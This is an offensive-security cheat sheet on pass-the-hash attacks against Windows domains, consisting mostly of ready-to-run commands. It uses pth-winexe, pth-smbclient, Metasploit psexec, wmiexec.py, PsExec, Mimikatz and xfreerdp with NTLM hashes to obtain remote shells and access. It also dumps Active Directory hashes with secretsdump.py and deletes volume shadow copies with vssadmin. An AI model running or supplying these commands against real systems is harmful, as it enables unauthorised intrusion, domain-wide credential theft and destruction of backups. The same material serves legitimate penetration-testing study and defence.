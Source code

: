 # Pass the Hash - Reusing hashes



## Pass the hash - reusing hashes <a id="pass-the-hash---reusing-hashes"></a>

Pass the hash \(PTH\) is a technique that lets the user authenticate by using a valid username and the hash, instead of the unhashed password. So if you have gotten a hold of a hash you might be able to use that hash against another system.

Pass the hash is a suite of different tools.

### SMB <a id="smb"></a>

So in order to u se pass the hash we first need to put the hash in a env variable using the export command:

So we will authenticate against a smb-service.

```text
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```

```text
pth-winexe -U administrator //192.168.1.101 cmd
```

I think you can run it like this too:

```text
pth-winexe -U admin/hash:has //192.168.0.101 cmd
```

#### More examples <a id="more-examples"></a>

```text
pth-winexe -U ./Administrator%aad3b435b51404eeaad3b435b51404ee:4b579a266f697c2xxxxxxxxx //10.145.X.X cmd.exe
pth-winexe -U EXAMPLE/Administrator%example@123 //10.145.X.X cmd.exe
```

[https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html)

### More PTH tools and examples <a id="more-pth-tools-and-examples"></a>

Metasploit

```text
use exploit/windows/smb/psexec
set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
```

[https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)

Command line shell on CORPSQLSERVER01

```text
pth-winexe -U corp/user_a%aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d –uninstall //corpsqlserver01 cmd.exe
```

SMB access to CORPDC01

```text
pth-smbclient //CORPDC01/c$ -U corp/user_a%aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d
```

Run commands using WMI on CORPDC01

```text
wmiexec.py –hashes aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d corp/user_a @CORPDC01 “vssadmin delete shadows /all /quiet” > ./NTDSData/rem_shadows.log
```

Acquire data from Active Directory \(ntds.dit\)

```text
secretsdump.py -just-dc-ntlm –user-status –outputfile | ./NTDSData/CORP/ntds20170711-13.05 -hashes aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d corp/user_a@corpdc01
```

Command line shell using psexec on Windows

```text
PsExec.exe -accepteula \\ corpsqlserver01 -s -u corp\user_a -p aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d cmd.exe
```

Mimikatz

```text
Mimikatz.exe “privilege::debug” “sekurlsa::pth /user:[username] /ntlm:[ntlm hash] /domain:[domainname]” “exit”
```

[https://www.sans.org/reading-room/whitepapers/testing/cracking-active-directory-passwords-how-cook-ad-crack-37940](https://www.sans.org/reading-room/whitepapers/testing/cracking-active-directory-passwords-how-cook-ad-crack-37940)

### Remote Desktop <a id="remote-desktop"></a>

```text
apt-get update
apt-get install freerdp-x11
```

```text
xfreerdp /u:admin /d:domain /pth:hash:hash /v:192.168.1.101
```

